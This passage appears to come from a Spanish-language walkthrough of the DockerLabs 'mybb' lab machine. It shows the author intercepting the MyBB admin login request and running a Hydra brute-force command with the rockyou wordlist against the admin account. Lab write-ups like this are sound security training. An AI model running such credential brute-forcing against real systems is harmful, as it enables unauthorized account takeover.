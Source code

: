 Con pocas opciones restantes, decido realizar un ataque de fuerza bruta sobre el usuario 'admin'. Para ello, intercepto la solicitud POST del panel de inicio de sesión.

![](/assets/img/dockerlabs-writeup-mybb/mybb1_16.png)

Modifiqué esta solicitud cambiando el método de la petición a GET. El formato de la URL quedó como sigue:

```
GET /admin/index.php?username=admin&password=123&do=login
```

Utilizo la respuesta 'The username and password combination you entered is invalid.' como indicador para que Hydra pudiera identificar cuándo una combinación de credenciales es incorrecta.

![](/assets/img/dockerlabs-writeup-mybb/mybb1_17.png)

```terminal
/home/kali/Documents/dockerlabs/mybb:-$ hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^=login:The username and password combination you entered is invalid."
```

![](/assets/img/dockerlabs-writeup-mybb/mybb1_18.png)
